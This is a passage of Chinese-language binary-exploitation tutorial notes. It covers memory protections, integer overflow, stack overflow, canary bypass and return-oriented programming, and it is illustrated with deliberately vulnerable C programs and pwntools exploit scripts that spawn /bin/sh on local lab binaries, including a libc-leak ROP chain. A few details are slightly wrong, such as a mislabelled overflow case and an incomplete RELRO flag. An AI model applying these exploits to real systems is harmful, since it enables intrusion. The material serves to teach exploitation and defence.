Stack Canary 保护是专门针对栈溢出攻击设计的一种保护机制。由于栈溢出攻击的主要目标是通过溢出覆盖函数栈高位的返回地址，因此其思路是在函数开始执行前，即在返回地址前写入一个字长的随机数据，在函数返回前校验该值是否被改变，如果被改变，则认为是发生了栈溢出，程序将终止运行。

GCC 默认使用 Stack Canary 保护，关闭方法是在编译时加入 `-fno-stack-protector` 参数。

##### ASLR（Address Space Layout Randomization）

ASLR 的目的是将程序的堆栈地址和动态链接库的加载地址进行一定的随机化，这些地址之间是不可读写执行的未映射内存，即使攻击者布置了 shellcode 并可以控制跳转，由于内存地址结构未知，依然无法执行 shellcode。

ASLR 是系统等级的保护机制，关闭方式是修改 `/proc/sys/kernel/randomize_va_space` 文件的内容为 0。

##### PIE

与 ASLR 保护相似，PIE 保护的目的是让可执行程序 ELF 的地址进行随机化加载，从而使程序的内存结构对攻击者完全未知，进一步提高程序的安全性。

GCC 编译时开启 PIE 的方法为添加参数 `-fpic -pie`。较新版本 GCC 默认开启 PIE，可以设置 `-no-pie` 来关闭。

##### Full Relro

Full Relro 保护与 Linux 下的 Lazy Binding 机制有关，主要作用是禁止 .GOT.PLT 表和一些相关内存的读写。

GCC 开启 Full Relro 的方法是添加参数 `-z relro`。

#### 1.3.4 GOT 和 PLT 的作用

ELF 文件中通常存在 .GOT.PLT 和 .PLT 这两个特殊的节，ELF 编译时无法知道 libc 等动态链接库的加载地址。如果一个程序想调用动态链接库中的函数，就必须使用 .GOT.PLT 和 .PLT 配合完成调用。

例如，`call _printf` 并不是跳转到了实际的 `_printf` 函数的位置。因为在编译时，程序不能确定 `printf` 函数地址，所以 `call` 指令实际上通过相对跳转，跳转到了 PLT 表中的 `_printf` 项。ELF 中所有用到的外部动态链接库函数都会有对应的 PLT 项目。

.PLT 表还是一段代码，作用是从内存中取出一个地址然后跳转。取出的地址是 `_printf` 的实际地址，存放这个 `_printf` 函数实际地址的地方就是 .GOT.PLT 表。

.GOT.PLT 表其实是一个函数指针数组，数组中保存着 ELF 中所有用到的外部函数的地址。.GOT.PLT 表的初始化工作由操作系统完成。某个函数必须被调用过，.GOT.PLT 表中才会存放函数的真实地址。

.GOT.PLT 和 .PLT 和 PWN 有什么关系？

- .PLT 可以直接调用某个外部函数，可用于栈溢出。
- .GOT.PLT 通常会存放 libc 中函数的地址，在漏洞利用中可以通过读取 .GOT.PLT 来获得 libc 的地址，或者通过写 .GOT.PLT 来控制程序的执行流。

## 第 2 章 整数溢出

### 2.1 整数运算

在 32 位 C 程序中，unsigned int 类型的长度是 32 位，能表示的最大的数是 0xffffffff，二进制  0xffffffff = 1111 1111 1111 1111 1111 1111 1111 1111（8 个 f 的二进制形式）。如果这个数加 1，其结果 0x100000000 就会超过 32 位能表示的范围，而只能截取其低 32 位，最终这个数字会变为 0，即无符号上溢。

计算机中有 4 种溢出情况，以 32 位整数为例：

- 无符号上溢：无符号数 0xffffffff 加 1 变为 0 的情况。
- 无符号下溢：无符号数 0 减去 1 变为 0xffffffff 的情况。
- 有符号上溢：有符号数正数 0x7fffffff 加 1 变为负数 0x8000000，即十进制 -2147483648 的情况。
- 无符号下溢：有符号负数 0x80000000 减去 1 变为正数 0x7fffffff 的情况。

有符号数字和无符号数直接的转换会导致整数大小突变。例如，有符号数字 -1 和无符号数字 0xffffffff 的二进制表示是相同的，二者直接进行转换会导致程序产生非预期效果。

### 2.2 整数溢出利用

整数溢出不像栈溢出等内存破坏可以直接通过覆盖内存进行利用，常常需要一定转换才能溢出。

#### 2.2.1 整数溢出转换成缓冲区溢出

无符号下溢可以将一个表示缓冲区大小的较小的数通过减法变成一个超大的整数，从而导致缓冲区溢出。

也可以通过输入负数的办法来绕过一些长度检查。例如，一些程序使用有符号数字表示长度，那么可以使用负数来绕过长度上限检查。而大多数系统 API 使用无符号数来表示长度，此时负数就会变成超大的正数导致溢出。

#### 2.2.2 整数溢出转数组越界

数组越界比缓冲区溢出更容易利用。

在 C 语言中，数组索引的操作只是简单地将数组指针加上索引来实现，并不会检查边界。因此，很大的索引会访问到数组后的数据，如果索引是负数，那么还会访问到数组之前的内存。

在数组索引的过程中，数组索引还要乘以数组元素的长度来计算元素的实际地址。

## 第 3 章  栈溢出

栈（stack）特点是以先进后出（First in last out）的方式存取栈中的数据。

函数调用的顺序也是最先调用的函数最后返回，因此栈非常适合保存函数运行过程中使用到的中间变量和其他临时数据。

### 3.1 栈溢出原理

栈溢出是缓冲区溢出的一种。函数的局部变量通常保存在栈上，如果这些缓冲区发生溢出，就是栈溢出。最经典的栈溢出利用方式是覆盖函数的返回地址，以达到劫持程序控制流的目的。

x86 架构中一般使用指令 call 调用一个函数，并使用指令 ret 返回。CPU 在执行 call 指令时，会先将当前 call 指令的下一条指令的地址入栈，再跳转到被调用函数。当被调用函数需要返回时，只需要执行 ret 指令，CPU 会将栈顶地址出栈，并赋值给 EIP 寄存器。

#### 示例-3.1.1：简单栈溢出

```
#include<stdio.h>
#include<unistd.h>

void shell(){
    system("/bin/sh");
}

void vuln(){
    char buf[10];
    gets(buf);
}

int main(){
    vuln();
}
```

使用如下命令进行编译，关闭地址随机化和栈溢出保护：

```
gcc -fno-stack-protector stack.c -o stack -no-pie
```

运行程序，用 IDA 调试，设置断点。

> 此处有一个问题待解决，IDA 中显示 char 为 16 个字节，而非 C 语言代码中我们预想的 10 字节。
>
> pwntools 脚本中的对应代码也从 p.sendline("a"*18+p64(0x40056A).decode('unicode_escape')) 更改为 p.sendline("a"*24+p64(0x40056A).decode('unicode_escape'))。



输入 8 个 A 后，退出 vuln 函数，程序执行 ret 指令时，在 Stack view 单击右键，选择 “Jump to RBP”。

- RSP 是堆栈指针寄存器，通常会指向栈顶位置，堆栈的 pop 和 push 操作就是通过改变 RSP 的值即移动堆栈指针的位置来实现的。

- RBP 是栈帧指针，用于标识当前栈帧的起始位置。

此时栈布局如下：



此时，栈顶保存的 0x4005A6 即返回地址，执行 ret 指令后，程序会跳转到 0x4005A6 的位置。

返回地址与输入的第一个 A 的距离为 16+8（Char + RBP） 字节，即 24 字节。如果输入 24 字节以上，则会覆盖返回地址。

IDA 中 Search Text，查找 `/bin/sh` 字符串，可以得到 shell 函数的位置为 0x40056A，我们的目的是让程序跳转到该函数，从而执行 `system("/bin/sh")`，从而获得 shell。



通过 pwntools 编辑攻击脚本：

```python
#!/usr/bin/python3
from pwn import *	# 引入 pwntools 库
p = process("./stack")	# 运行本地程序 stack

p.sendline("a"*24+p64(0x40056A).decode('unicode_escape'))
# 向进程中输入，自动在结尾添加 \n
# p64 函数自动将 64 位整数转换为 8 字节字符串，u64 函数则会将 8 字节字符转换为 64 位整数
# decode() 函数用于解决错误 TypeError: can only concatenate str (not "bytes") to str

p.interactive()	# 切换到直接交互模式
```

运行脚本，成功获得 shell。

#### 示例-3.1.2：2023网鼎杯pwn16

打开题目，F5 反编译，跟进函数 `overflow_()`。



```c
int overflow_()
{
  char buf[104]; // [esp+0h] [ebp-68h] BYREF

  printf("please input what you want say");
  read(0, buf, 0x80u);
  return puts(buf);
}
```

跟进 `shell()` 函数，找到 `system("/bin/sh")` 函数。也可以按 Shift+F12 组合键打开 Strings 窗口，全局搜索字符串。



按 Tab 切换窗口，得到跳转 `system("/bin/sh")` 的地址。



编写攻击脚本：

- 108 为 `char buf[104]` 加上寄存器 4 字节。
- 32 位程序，使用 p32 而不是 p64。

```python
#!/usr/bin/python3
from pwn import *
p = process("./bin16")
p.sendline("a"*108+p32(0x080485C6).decode('unicode_escape'))
p.interactive()
```

### 3.2 栈保护技术

栈溢出利用难度很低，但危害巨大。编译器开发者们引入 Canary 机制来检测栈溢出攻击。

Canary 机制在栈保存 RBP 的位置前插入一段随机数，如果攻击者利用栈溢出漏洞覆盖返回地址，会将 Canary 一起覆盖。编译器会在函数 ret 指令前添加一段检查 Canary 值是否 被改写的代码。如果被改写，则直接抛出异常，中断程序，从而阻止攻击发生。

但 Canary 机制不一定可靠，例如示例 2.3.2.1。

#### 示例-3.2.1：Canary机制

```c
#include<stdio.h>
#include<unistd.h>

void shell(){
    system("/bin/sh");
}

void vuln(){
    char buf[24];
    puts("input 1:");
    read(0, buf, 100);
    puts(buf);
    puts("input 2:");
    fgets(buf, 0x100, stdin);
}

int main(){
    vuln();
}
```

编译时开启栈保护：

```
gcc stack2.c -no-pie -fstack-protector-all -o stack2
```

vuln 函数进入是，会从 fs:28 中取出 Canary 的值，放入 rbp-8 的位置。在函数退出前，将 rbp-8 中的值与 fs:28 中的值进行比较，如果被改变，就调用 `__stack_chk_fail` 函数，输出报错信息并退出程序。



但程序在 vuln 函数返回前会将输入的字符串打印，这会泄露栈上的 Canary，从而绕过检测。

可以将字符串长度控制到刚好连接 Canary，就可以使 Canary 和字符串一起被 puts 函数打印。由于 Canary 最低字节为 0x00，为了防止被 0 截断，需要多发送一个字符来覆盖 0x00。

首先找到 shell 命令的地址 0x4006BD：



编写攻击脚本：

```python
#!/usr/bin/python3
from pwn import *
p = process("./stack2")
p.recv()
p.sendline(b"a"*24)
p.recvuntil(b"a"*24+b'\n')	# 接收到指定字符串为止
canary=b"\x00"+p.recv(7)	# 接收 7 个字符
print(canary)				# 泄露 canary
p.sendline(b"a"*24+canary +p64(0)+p64(0x4006BD))
p.interactive()
```

### 3.3 常发生栈溢出的危险函数

通过寻找危险函数，可以快速确定程序中是否可能有栈溢出，以及栈溢出的位置。常见的危险函数有包括输入、输出、字符串三种。

输入相关危险函数：

- gets()，直接读取一行，到换行符 `\n` 为止，同时 `\n` 被转换为 `\x00`；
- scanf()，格式化字符串中的 `%s`，不会检查长度；
- vscanf()，同上。

输出相关危险函数：

- sprintf()，将格式化后的内容写入缓冲区中，但是不检查缓冲区长度。

字符串相关危险函数：

- strcpy()，遇到 `\x00` 停止，不会检查长度，经常容易出现单字节写 0（off by one）溢出；
- strcat()，同上。

### 3.4 可利用的栈溢出覆盖位置

可利用的栈溢出覆盖位置通常有 3 种。

第一种，覆盖函数返回地址，之前的示例都是通过覆盖返回地址控制程序。

第二种，覆盖栈上所保存的 BP 寄存器的值。函数被调用时会先保存栈现场，返回时再恢复。以 x64 程序为例。

调用时：

```
push rbp
mov rbp,rsp
leave	;相当于 mov rsp,rbp	pop rbp
ret
```

返回时：

如果栈上的 BP 值被覆盖，那么函数返回后，主调函数的 BP 值会被改变，主调函数返回执行 ret 时， SP 不会指向原来的返回地址位置，而是被修改后的 BP 位置。

第三种，根据现实执行情况，覆盖特定的变量或地址的内容，可能导致一些逻辑漏洞的出现。

## 第 4 章 返回导向式编程

现代操作系统有比较完善的 MPU 机制，可以按照内存页的粒度设置进程的内存使用权限。内存权限分别有可读（R）、可写（W）和可执行（X）。一旦 CPU 执行了没有可执行权限的内存上的代码，操作系统会立即终止程序。

在默认情况下，基于漏洞缓解的规则，程序中不会存在同时具有可写和可执行权限的内存，所以无法通过修改程序的代码段或者数据段来执行任意代码。针对这种漏洞缓解机制，有一种通过返货到程序中特定的指令序列从而控制程序执行流程的攻击技术，被称为返回导向式编程（Return-Oriented Programming，ROP）。

栈溢出通过覆盖返回地址来劫持程序的控制流，并通过 ret 指令跳转到 shell 函数来执行任意命令。正常情况下，程序中不可能存在这种函数。但是，可以利用以 ret（0xc3）指令结尾的指令片段（Gadget）构造一条 ROP 链，来实现任意指令执行，最终实现任意代码执行。

具体步骤为：

- 寻找程序可执行的内存段中所有的 ret 指令，并查看在 ret前的字节是否包含有效指令。
- 如果包含有效指令，则标记片段为一个可用片段。
- 找到一系列这样的以 ret 结束的指令后，将这些指令的地址按顺序放在栈上。
- 每次执行完相应的指令后，其结尾的 ret 指令会将程序控制流传递给栈顶的新的 Gadget 继续执行。
- 栈上这段连续的 Gadget 构成了一条 ROP 链，从而实现任意指令执行。

### 4.1 寻找 Gadget

在漏洞利用过程中，比较常见的 Gadget 有以下三种类型。

第一种，保存栈数据到寄存器，例如：

```
pop rax;
ret;
```

第二种，系统调用，例如：

```
syscall;
ret;
```

```
int 0x80;
ret;
```

第三种，会影响栈帧的 Gadget，例如：

```
leave;
ret;
```

```
pop rbp;
ret;
```

寻找 Gadget 的方法包括：寻找程序中的 ret 指令，查看 ret 之前有没有所需的指令序列。也可以使用 ROPgadget、Ropper 等工具（更快速）。

- ROPgadget：https://github.com/JonathanSalwan/ROPgadget
- Ropper：https://github.com/sashs/Ropper

### 4.2 返回导向式编程

```c
#include<stdio.h>
#include<unistd.h>

int main(){
    char buf[10];
    puts("hello");
    gets(buf);
}
```

用如下命令进行编译：

```
gcc rop.c -o rop -no-pie -fno-stack-protector
```

与之前栈溢出所用的例子差别在于，程序中并没有预置可以用来执行命令的函数。

先用 ROPgadget 寻找这个程序中的 Gadget（`--ropchain` 参数自动寻找可用的 Gadget）：

```
ubuntu@ubuntu:~/Desktop/ROPgadget$ python3 ROPgadget.py --binary rop --ropchain
```

```
Gadgets information
============================================================
0x00000000004004ae : adc byte ptr [rax], ah ; jmp rax
0x0000000000400479 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x000000000040047f : add bl, dh ; ret
0x00000000004005dd : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004005db : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400437 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x400420
0x000000000040055d : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x000000000040052c : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4004c0
0x00000000004005dc : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x000000000040052d : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x4004c0
0x000000000040055e : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000400439 : add byte ptr [rax], al ; jmp 0x400420
0x000000000040055f : add byte ptr [rax], al ; leave ; ret
0x00000000004004b6 : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040052e : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4004c0
0x000000000040047e : add byte ptr [rax], al ; ret
0x00000000004004b5 : add byte ptr [rax], r8b ; pop rbp ; ret
0x000000000040047d : add byte ptr [rax], r8b ; ret
0x000000000040052f : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x4004c0
0x0000000000400517 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400560 : add cl, cl ; ret
0x0000000000400447 : add dword ptr [rax], eax ; add byte ptr [rax], al ; jmp 0x400420
0x0000000000400518 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x0000000000400413 : add esp, 8 ; ret
0x0000000000400412 : add rsp, 8 ; ret
0x0000000000400478 : and byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x0000000000400434 : and byte ptr [rax], al ; push 0 ; jmp 0x400420
0x0000000000400444 : and byte ptr [rax], al ; push 1 ; jmp 0x400420
0x0000000000400409 : and byte ptr [rax], al ; test rax, rax ; je 0x400412 ; call rax
0x0000000000400410 : call rax
0x0000000000400442 : fimul dword ptr [rbx] ; and byte ptr [rax], al ; push 1 ; jmp 0x400420
0x00000000004005bc : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040047a : hlt ; nop dword ptr [rax + rax] ; ret
0x0000000000400533 : in eax, 0x5d ; jmp 0x4004c0
0x000000000040040e : je 0x400412 ; call rax
0x00000000004004a9 : je 0x4004b8 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004004eb : je 0x4004f8 ; pop rbp ; mov edi, 0x601038 ; jmp rax
0x000000000040043b : jmp 0x400420
0x0000000000400535 : jmp 0x4004c0
0x00000000004006e3 : jmp qword ptr [rbp]
0x00000000004004b1 : jmp rax
0x0000000000400561 : leave ; ret
0x0000000000400432 : loop 0x40043f ; and byte ptr [rax], al ; push 0 ; jmp 0x400420
0x0000000000400512 : mov byte ptr [rip + 0x200b1f], 1 ; pop rbp ; ret
0x000000000040055c : mov eax, 0 ; leave ; ret
0x0000000000400532 : mov ebp, esp ; pop rbp ; jmp 0x4004c0
0x00000000004004ac : mov edi, 0x601038 ; jmp rax
0x0000000000400531 : mov rbp, rsp ; pop rbp ; jmp 0x4004c0
0x00000000004004b3 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x000000000040047b : nop dword ptr [rax + rax] ; ret
0x00000000004004f5 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400515 : or esp, dword ptr [rax] ; add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004005cc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005ce : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005d0 : pop r14 ; pop r15 ; ret
0x00000000004005d2 : pop r15 ; ret
0x0000000000400534 : pop rbp ; jmp 0x4004c0
0x00000000004004ab : pop rbp ; mov edi, 0x601038 ; jmp rax
0x00000000004005cb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005cf : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004004b8 : pop rbp ; ret
0x00000000004005d3 : pop rdi ; ret
0x00000000004005d1 : pop rsi ; pop r15 ; ret
0x00000000004005cd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400436 : push 0 ; jmp 0x400420
0x0000000000400446 : push 1 ; jmp 0x400420
0x0000000000400530 : push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x4004c0
0x0000000000400416 : ret
0x000000000040040d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x00000000004005e5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004005e4 : sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004005da : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x000000000040040c : test eax, eax ; je 0x400412 ; call rax
0x000000000040040b : test rax, rax ; je 0x400412 ; call rax

Unique gadgets found: 74

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[-] Can't find the 'mov qword ptr [r64], r64' gadget

```

这个程序很小，可供使用的 Gadget 非常有限，其中没有 syscall 这类可以用来执行系统调用的 Gadget，所以很难实现任意代码执行。

针对这种情况，可以想办法先获取一些动态链接库（如 libc）的加载地址，再使用 libc 中的 Gadget 构造可以实现任意代码执行的 ROP。

程序中常常有像 puts、gets 等 libc 提供的库函数，这些函数在内存中的地址会写在程序的 GOT 表中，当程序调用库函数时，会在 GOT 表中读出对应函数在内存中的地址，然后跳转到该地址执行，如下图。



先利用 puts 函数打印库函数的地址，减掉该库函数与 libc 加载基地址的偏移，就可以计算出 libc 的基地址。程序中的 GOT 表如下图。



puts 函数的地址被保存在 0x601018 位置，只要调用 puts(0x601018)，就会打印 puts 函数在 libc 中的地址。

```python
#!/usr/bin/python3
from pwn import *
p=process('./rop')

# pop_rdi=0x4005d3
# puts_got=0x601018
# puts=0x400430
p.sendline(b'a'*18+p64(0x4005d3)+p64(0x601018)+p64(0x400430))
p.recvuntil('\n')

addr=u64(p.recv(16).ljust(8,b'\x00'))
print(hex(addr))
# 0xa7f776dfe46a0
```

根据 puts 函数在 libc 库中的偏移地址，可以计算出 libc 的基地址，然后利用 libc 中的 Gadget 构造可以执行 `/bin/sh` 的 ROP，从而获得 shell。可以直接调用 libc 中的 system 函数，也可以使用 syscall 系统调用来完成。

以系统调用为例，通过查询系统调用表，可以知道 execve 的系统调用号为 59，想要实现任意命令执行，需要把参数设置为：

```
execve("/bin/sh", 0, 0)
```

在 x64 位操作系统上，设置方式为在执行 syscall 前将 rax 设为 59，rdi 设为字符串 `/bin/sh` 的地址，rsi 和 rdx 设为 0。字符串 `/bin/sh` 可以在 libc 中找到，不需要另外构造。

虽然不能直接改写寄存器中的数据，但是可以将要写入寄存器的数据和 Gadget 一起入栈， 将这些数据写入寄存器。Ubuntu 16.04 中 libc 位于 `/lib/x86_64-linux-gnu/libc-2.23.so`，可以从 libc 中找到需要的 Gadget：

```
ubuntu@ubuntu:~/Desktop/ROPgadget$ python3 ROPgadget.py --binary /lib/x86_64-linux-gnu/libc-2.23.so --ropchain
```

```
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x123152 mov qword ptr [rsi], rdi ; ret
	[+] Gadget found: 0x202f8 pop rsi ; ret
	[+] Gadget found: 0x21112 pop rdi ; ret
	[-] Can't find the 'xor rdi, rdi' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0xe7bfa mov qword ptr [rdx], rdi ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret
	[+] Gadget found: 0x21112 pop rdi ; ret
	[-] Can't find the 'xor rdi, rdi' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x9eda4 mov qword ptr [rdx], rcx ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret
	[+] Gadget found: 0xea79a pop rcx ; pop rbx ; ret
	[-] Can't find the 'xor rcx, rcx' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x2e1ac mov qword ptr [rdx], rax ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret
	[+] Gadget found: 0x3a738 pop rax ; ret
	[+] Gadget found: 0x8b945 xor rax, rax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x8b945 xor rax, rax ; ret
	[+] Gadget found: 0xabfc0 add rax, 1 ; ret
	[+] Gadget found: 0x8f8ab add eax, 1 ; ret
	[+] Gadget found: 0x6b429 add al, 1 ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x21112 pop rdi ; ret
	[+] Gadget found: 0x202f8 pop rsi ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x26bf syscall

- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000003c4080) # @ .data
p += pack('<Q', 0x000000000003a738) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000002e1ac) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000003c4088) # @ .data + 8
p += pack('<Q', 0x000000000008b945) # xor rax, rax ; ret
p += pack('<Q', 0x000000000002e1ac) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000021112) # pop rdi ; ret
p += pack('<Q', 0x00000000003c4080) # @ .data
p += pack('<Q', 0x00000000000202f8) # pop rsi ; ret
p += pack('<Q', 0x00000000003c4088) # @ .data + 8
p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000003c4088) # @ .data + 8
p += pack('<Q', 0x000000000008b945) # xor rax, rax ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000026bf) # syscall
```

这里需要用到的寄存器有 RAX、RDI、RSI、RDX：

```
p += pack('<Q', 0x000000000003a738) # pop rax ; ret
p += pack('<Q', 0x0000000000021112) # pop rdi ; ret
p += pack('<Q', 0x00000000000202f8) # pop rsi ; ret
p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000000026bf) # syscall
```

泄露库函数地址后，接下来要做的就是控制程序重新执行 main 函数，从而读入并执行新的 ROP 链来实现任意代码执行。完整利用脚本如下：

```python
#!/usr/bin/python3
from pwn import *
p = process('./rop')
elf = ELF('./rop')

# 导入 libc 库，ubuntu 16.04 中路径为：/lib/x86_64-linux-gnu/libc-2.23.so
libc = elf.libc


# 第一步，找到 puts 函数在 libc 库中的偏移地址
pop_rdi = 0x4005d3
puts_got = 0x601018
puts = 0x400430
main = 0x400537
rop1 = b"a" * 18        # char[10] + 寄存器[8] = 18
rop1 += p64(pop_rdi)    # rdi 寄存器地址
rop1 += p64(puts_got)   # .got.plt 表中存放的 _puts 的真实地址
rop1 += p64(puts)   # .plt 表中 _puts 项的地址
rop1 += p64(main)   # main 函数地址
p.sendline(rop1)
p.recvuntil('\n')
addr = u64(p.recv(6).ljust(8,b'\x00'))  # u64 将字符传唤为数字


# 第二步，计算 libc 基地址
libc_case = addr - libc.symbols['puts'] # 计算 libc 的基地址
info("libc:0x%x", libc_case)    # 16 进制输出

# 第三步，在 libc 中寻找相应的寄存器，将参数设置为 execve("/bin/sh",0,0)
# 需要用到 rax、rdi、rsi、rdx 寄存器
pop_rax = 0x000000000003a738 + libc_case # pop rax ; ret
pop_rdi = 0x0000000000021112 + libc_case # pop rdi ; ret
pop_rsi = 0x00000000000202f8 + libc_case # pop rsi ; ret
pop_rdx = 0x0000000000001b92 + libc_case # pop rdx ; ret
syscall = 0x00000000000026bf + libc_case # syscall

# 第四步，搜索 libc 中 /bin/sh 字符串的地址
binsh =  next(libc.search(b"/bin/sh"),) + libc_case

# 第五步，设置参数为 execve("/bin/sh",0,0)
# 在 x64 位操作系统上，参数设置方式为：
# 1. 在执行 syscall 前将 rax 设为 59
# 2. rdi 设为字符串 /bin/sh 的地址（/bin/sh 可以在 libc 中找到，不需要另外构造）
# 3. rsi 和 rdx 设为 0
rop2 = b"a" * 18
rop2 += p64(pop_rax)
rop2 += p64(59)
rop2 += p64(pop_rdi)
rop2 += p64(binsh)
rop2 += p64(pop_rsi)
rop2 += p64(0)
rop2 += p64(pop_rdx)
rop2 += p64(0)
rop2 += p64(syscall)

p.recvuntil("hello\n")
p.sendline(rop2)
p.interactive()
```

运行结果：

```bash
ubuntu@ubuntu:~/Desktop/PWN$ python rop.py 
[+] Starting local process './rop': pid 4296
[*] '/home/ubuntu/Desktop/PWN/rop'
